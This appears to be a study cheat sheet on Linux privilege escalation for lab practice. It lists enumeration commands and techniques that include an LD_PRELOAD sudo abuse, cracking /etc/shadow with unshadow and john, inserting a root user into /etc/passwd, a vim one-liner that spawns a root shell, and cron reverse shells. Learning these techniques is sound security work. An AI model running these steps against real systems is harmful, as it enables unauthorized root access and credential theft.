

- ## Enumeration Commands
	- `hostname` returns the host name of the target.
	- `uname -a` returns information about the kernel.
	- `cat /proc/version` returns information about system processes.
	- `cat /etc/issue` returns information about the system.
	- `cat /etc/*release` for system information.
	- `ps` returns running processes.
		- `ps -A`: returns all running processes.
		- `ps axjf`: returns the process tree.
		- `ps aux`: returns processes for all users.
	- `env` returns environment variables. (check the `PATH` variable).
	- `sudo -l` returns list of all commands that can be run by the user with sudo.
	- `id` returns user's privilege level and groups. (`id <user>`)
	- `cat /etc/passwd | cut -d ":" -f 1` returns users on the system.
	- `history` returns commands that were previously ran.
	- `ifconfig` and `ip route`
	- ### Netstat
		- Returns existing connections.
		- `netstat -ano` **MOST USED**, `-a` all sockets, `-n` do not resolve names, and `-o` display timers.
		- `netstat -a` returns all listening ports and connections.
		- `netstat -at` or `netstat -au` returns `TCP or UDP` connections.
		- `netstat -l` returns ports on listening mode.
		- `netstat -s` returns network usage statistics.
		- `netstat -tp` returns connection with service name and `PID` information
		- `netstat -i` returns interface statistics.
	- ### Find
		- #### Add `-type f 2>/dev/null` to redirect errors and have clean o/p
		- `find . -name flag1.txt` searches the current directory for file named `flag1.txt`.
		- `find /home -name flag1.txt` searches the home directory for the file named `flag1.txt`.
		- `find / -type d -name config` searches the root directory for a directory named config.
		- `find / -type f -perm 0777` searches for files with 777 permissions (readable, writable, executable by all).
		- `find / -perm a=x` searches for executable files.
		- `find /home -user frank` searches for files for user frank.
		- `find / -mtime 10` searches for files that were modified last 10 days.
		- `find / -atime 10` searches for files that were accessed last 10 days.
		- `find / -cmin -60` searches for files changed within the last hour.
		- `find / -amin -60` searches for files accesses within the last hour.
		- `find / -size 50M` searches for files with a 50 MB size.
			- `find / -size +50M` searches for files with a size more than 50 MB.
			- `find / -size -50M` searches for files with a size less than 50 MB.
		- `find / -writable -type d 2>/dev/null` searches for world-writable files.
		- `find / -perm -222 -type d 2>/dev/null` searches for world-writable directories.
		- `find / -perm -o w -type d 2>/dev/null` searches for world-writable directories.
		- `find / -perm -o x -type d 2>/dev/null` searches for world-executable directories.
		- `find / -name perl*` or `find / -name python*` or `find / -name gcc*` searches for development tools and supported languages.
		- `find / -uid <uid> -type f -ls 2>/dev/null | grep -v "/proc"` to get the files owned by the user, get `uid` from `id` or `/etc/passwd`.
		- `find / -name "*<username>*" -type f -ls 2>/dev/null` to get the files with the username in it.
		- `grep -i password -r .` to get the files with the word password in them.
		- #### **IMPORTANT**
			- `find / -perm -u=s -type f 2>/dev/null` searches for files with `SUID` bit set which allows us to run the file with the privilege of the file owner.
	- ### Tools
		- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
		- [LinEnum](https://github.com/rebootuser/LinEnum)
		- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
		- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
		- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)
- ## Kernel Exploitation
	- ### Steps
		- Identify the kernel version.
		- Search and find an exploit code for the kernel version. [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
		- Run the exploit.
	- ### **NOTE** 
		- A failed kernel exploit could lead to a system crash.
- ## Sudo 
	- [GTFObins](https://gtfobins.github.io/)
	- ### **Using Application functions**
		- Some applications may not have an sudo exploit like `Apache2` server, a "hack" can be used to leak information using a function of the application. In case of `Apache2` the `-f` option specifies an alternative configuration file.
			- Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the file.
	- ### **Using LD_PRELOAD**
		- A function that allows any program to use shared libraries.
		- If the `env_keep` option is enabled, we can generate a shared library which will be loaded and executed before the program is run.
		- #### Steps
			- Check for LD_PRELOAD (with the `env_keep` option)
			- Write a simple C code compiled as a shared object (.so extension) file.
			- Run the program with sudo rights and the LD_PRELOAD option pointing to our `.so` file.
		- C code:
			- 
		- Compile the code using `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
			- Then use the found application that can be ran with Sudo, for example `find` like so `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
- ## SUID
	- [GTFObins](https://gtfobins.github.io/)
	- If the SUID or SGID bits are set, allows the files to be executed with the permissions of the file owner or the group owner.
	- `find / -type f -perm 04000 -ls 2>/dev/null` or `find / -type f -perm -u=s 2>/dev/null` lists the files that have SUID or SGID bits set.
	- #### *Using Nano*
		- `unshadow` tool to create a file crackable by `john`, the tool needs both `/etc/shadow` and `/etc/passwd` files.
			- `unshadow passwd.txt shadow.txt > passwords.txt`
		- Adding a new user that has root privileges.
			- Use `openssl passwd -1 -salt THM password1` to get a the hash value of the password `password1` with a salt of `THM`
			- Use the findings in `GTFObins` to add the user to the `/etc/passwd` file like so `hacker:<hash>:0:0:root:/root:/bin/bash`
- ## Capabilities
	- Capabilities help manage at a more granular level. Used to increase the privilege level of a process or a binary.
	- `getcap` tool lists enabled capabilities.
	- `getcap -r / 2>/dev/null`
	- For example, `vim`, if found in the list, could be used to open up a root shell using `vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` either `:py` or `:py3`.
- ## Cron Jobs
	- Used to run scripts or binaries at specific times. They run with the privilege of their owner not the current user.
	- Cron jobs are saved as `crontabs`.
	- Each user has their `crontab` file.
	- `cat /etc/crontab` to view the system-wide cron jobs.
	- Depending on the available tools on the machine, a reverse shell could be created.
	- Script for a reverse shell.
	- Put the script in the cron job file, then open a listener using `nc -lvnp 6666`.
- ## PATH
	- If the user has write permissions on a file that is found in the PATH variable, could potentially be used to hijack an application to run a script.
	- Questions to check if it is exploitable:
		- What directories are located in the $PATH variable?
		- Does use have write permissions on any of these folders?
		- Can you modify $PATH?
		- Is there a script/application that can be started that will be affected by this vulnerability?
	- Search for writable directories using `find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`, comparing this output to the output of `cat $PATH` to see which directories are writable.
	- Depending on the findings, no writable directory could be found, a solution to this is to add the `/tmp/` to the `$PATH` variable since its writable to all. `export PATH=/tmp:$PATH`.
	- Create a script that will start a system binary for example `thm`.
	- Compile it to an executable using `gcc path.c -o path -w` then set SUID bit using `chmod u+s path`.
	- Create a file inside `/tmp/` directory called `thm` that will open up a shell `echo "/bin/bash" > thm` and change the permissions using `chmod 777 thm`.
- ## NFS
	- Network File Sharing configuration is kept in `/etc/exports` file which can be read by users.
	- The important option is the `no_root_squash`.
	- By default NFS will change the root user to `nfsnobody` and strip any file from operating with root privileges. if the `no_root_squash` option is set on writable share, we can create an executable with SUID bit set and run it on the target.
	- ### Steps
		- Find mountable shares using `showmount -e <ip>`.
		- Mount one of the `no_root_squash` shares to our attacking machine using `mount -o rw <ip>:/<share> <attack machine path>`.
		- Create an executable that spawns a shell.
		- Compile the code using `gcc nfs.c -o nfs -w`.
		- Set the SUID bit using `chmod +s nfs`.
		- Since the share is mounted on the attack machine, the files will be present on the target.
- ## Ruby
	- When using `sudo -l` if ruby is found, create a file that executes `/bin/sh` in `/tmp` then call it using `/usr/bin/ruby /root/../tmp/shell.rb`. 
	- 